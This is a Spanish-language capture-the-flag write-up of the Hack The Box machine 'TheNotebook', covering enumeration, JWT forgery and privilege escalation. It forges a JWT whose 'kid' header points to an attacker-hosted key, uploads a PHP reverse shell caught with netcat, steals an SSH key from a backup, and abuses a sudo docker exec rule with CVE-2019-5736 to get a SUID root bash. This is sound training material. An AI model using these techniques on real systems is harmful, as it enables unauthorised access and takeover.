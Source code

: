 ```yaml
---
layout: post
title:  "☢HTB☢ TheNotebook"
date:   2021-07-31 9:20:00 +0200
last_modified_at: 2021-07-31 09:20:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Writeup, Docker, JWT]
categories: Hackthebox
---
```



{: .message}

Es una máquina que realmente me gusto por la forma de intrusión y la escalada.

## Enumeración
### Nmap 

*Puertos:*
* 22 /tcp -> OpenSSH 7.6p1
* 80 /tcp -> nginx 1.14.0

```bash
nmap -p- --open -T5 -v 10.10.10.230 -oG Allport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:10 EDT
Initiating Ping Scan at 21:10
Scanning 10.10.10.230 [2 ports]
Completed Ping Scan at 21:10, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:10
Completed Parallel DNS resolution of 1 host. at 21:10, 0.01s elapsed
Initiating Connect Scan at 21:10
Scanning 10.10.10.230 [65535 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230
Connect Scan Timing: About 43.74% done; ETC: 21:11 (0:00:40 remaining)
Completed Connect Scan at 21:11, 97.59s elapsed (65535 total ports)
Nmap scan report for 10.10.10.230
Host is up (0.082s latency).
Not shown: 47011 filtered ports, 18522 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 97.78 seconds
```
Este escaneo como siempre digo es el importante ya que nos trae versiones de los servicios:
```bash
nmap -sC -sV -p22,80 10.10.10.230 -oN ScanPort1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:22 EDT
Nmap scan report for 10.10.10.230
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```
Siempre me gusta tirar de esta utilidad para saber a qué me enfrento:

```bash
whatweb 10.10.10.230
http://10.10.10.230 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.10.230], Title[The Notebook - Your Note Keeper], nginx[1.14.0]
```

### Fuzz

Mediante wfuzz pude sacar esto: 
* -> http://10.10.10.230/bd7077f7-3d3a-43c0-a0e0-20047e819f35/notes
* -> http://10.10.10.230/admin/
	* upload
	* notes


En el cookie editor encontre lo que es una jwt que cuando se pasa por [esto](https://jwt.io/) y te muestra todo lo que necesitas para trabajar

## JWT Token bypass
Para llevar a cabo este bypass me lei este [blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
```sql
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in privKey.key
Your public key has been saved in privKey.key.pub
The key fingerprint is:
SHA256:6hjan3Jm1H2FExEj0WOvCy6tw6XmNc9AzYVHmp66Ny8 benji@parrot
The key's randomart image is:
+---[RSA 4096]----+
|          oo+o.  |
|           .=*   |
|           .+=o  |
|           +o+o  |
|       .S.. =+   |
|      ....+.o    |
|    .... ==o .   |
|   o.++.*.o*E    |
|  . o*+oo+..o+.  |
+----[SHA256]-----+

python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...

┌─[benj@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.209:7070/privKey.key"}' |base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yMDk6NzA3
MC9wcml2S2V5LmtleSJ9Cg==
┌─[benji@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"username":"benji","email":"benji@htb.local","admin_cap":true}' |base64
eyJ1c2VybmFtZSI6ImJlbmppIiwiZW1haWwiOiJiZW5qaUBodGIubG9jYWwiLCJhZG1pbl9jYXAi
OnRydWV9Cg==
```

Primero se copia los dos base64 que se obtuvieron de la codificacion de las cadenas de texto. (Teniendo en cuenta que tengo un servidor en el puerto 7070)

![](/images_blog/img_thenotebook/Pastedimage20210422141532.png)

![Pastedimage20210422141532](https://user-images.githubusercontent.com/76759292/127757368-0953690d-dca7-4a53-95e4-ca1a1caea03f.png)

### Firma del token 

Para hacerlo tienes que copiar  la clave publica y la privada en https://jwt.io/.

## Reverse PHP

Aqui tengo acceso a subir un archivo php y entonces aprovechando esto, subiendo el clasico php

![](/images_blog/img_thenotebook/Pastedimage20210422142431.png)
![Pastedimage20210422142431](https://user-images.githubusercontent.com/76759292/127757445-cabf92e0-48fd-475b-833f-d69f2afa637a.png)


```bash
rlwrap nc -lnvp 4444           
listening on [any] 4444 ...
connect to [10.10.14.209] from (UNKNOWN) [10.10.10.230] 59978
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@thenotebook:/$ 
```

Primero es que nos encontramos como el usuario www-data tenemos que volvernos el usuario noah, en la ruta de backup nos encontramos con uno del diretorio completo de noah, este backup contiene una clave id_rsa del usuario noah:

```bash
/var/backups$ ls -la
total 64
drwxr-xr-x  2 root root  4096 Jul 31 16:03 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33585 Jul 23 14:24 apt.extended_states.0
-rw-r--r--  1 root root  3618 Feb 24 08:53 apt.extended_states.1.gz
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.2.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.3.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

```bash
ls
authorized_keys  id_rsa  id_rsa.pub
```

Teniendo esto entramos por ssh:
```bash
noah@thenotebook:~$ ls
user.txt  webapp-dev01.sh
noah@thenotebook:~$ cat user.txt 
56013079b3c02c282d699ba6faec07c6
```
## PrivEsc
Para el privesc nos encontramos un contenedor que se encuentra desactualizado con una version *Docker version 18.06.0-ce* cabe destacar que docker va por la version 20.10:
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
sudo /usr/bin/docker exec -it webapp-dev01 bash
root@b778c5e32326:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key  requirements.txt  static  templates  webapp.tar.gz
root@b778c5e32326:/opt/webapp# 

docker --version
Docker version 18.06.0-ce, build 0ffa825
```
Aqui les dejo este [CVE](https://github.com/Frichetten/CVE-2019-5736-PoC):

![](/images_blog/img_thenotebook/Pastedimage20210731171252.png)
![Pastedimage20210731171252](https://user-images.githubusercontent.com/76759292/127757457-ae1380af-2ede-4b74-a348-9a65d799c412.png)


La idea es que podemos ejecutar cualquier comando como root entonces sabiendo esto le dare permiso a la bash para cuando haga un bash -p me de una bash como root:

```bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
![](/images_blog/img_thenotebook/Pastedimage20210731171606.png)
![Pastedimage20210731171606](https://user-images.githubusercontent.com/76759292/127757460-f66c999b-0eae-44c0-9150-cf0acbe8a097.png)


![](/images_blog/img_thenotebook/Pastedimage20210731171815.png)

![Pastedimage20210731171815](https://user-images.githubusercontent.com/76759292/127757461-a85dc410-c881-4325-82fc-59a60ffe4a8f.png)

Aqui vemos como tenemos acceso a la flag:
```bash
bash-4.4# ls
cleanup.sh  docker-runc  reset.sh  root.txt  start.sh
bash-4.4# cat root.txt 
9bba1908ac228fb0088747ddee6ab9b9
bash-4.4# 
```
MACHINE PWNED!!!!!

